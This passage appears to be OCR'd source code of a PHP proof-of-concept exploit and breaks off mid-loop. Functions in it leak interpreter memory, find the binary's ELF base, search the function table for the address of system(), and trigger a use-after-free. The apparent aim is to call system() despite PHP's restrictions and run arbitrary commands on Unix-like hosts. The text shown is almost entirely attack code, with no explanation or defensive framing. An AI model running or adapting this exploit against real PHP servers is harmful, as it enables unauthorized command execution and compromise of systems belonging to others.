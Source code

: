 ```php
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
    }

    function get_binary_base($binary_leak) {
        $base = 0;
        $start = $binary_leak & 0xfffffffffffff000;
        for($i = 0; $i < 0x1000; $i++) {
            $addr = $start - 0x1000 * $i;
            $leak = leak($addr, 0, 7);
            if($leak == 0x10102464c457f) {
                return $addr;
            }
        }
    }

    function get_system($basic_funcs) {
        $addr = $basic_funcs;
        do {
            $f_entry = leak($addr);
            $f_name = leak($f_entry, 0, 6);

            if($f_name == 0x6d6574737973) {
                return leak($addr + 8);
            }
            $addr += 0x20;
        } while($f_entry != 0);
        return false;
    }

    function trigger_uaf($arg) {

        $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');
        $vuln = new Vuln();
        $vuln->a = $arg;
    }

    if(stristr(PHP_OS, 'WIN')) {
        die('This PoC is for *nix systems only.');
    }

    $n_alloc = 10; 
    $contiguous = [];
    for($i = 0; $i < $n_alloc; $i++)
```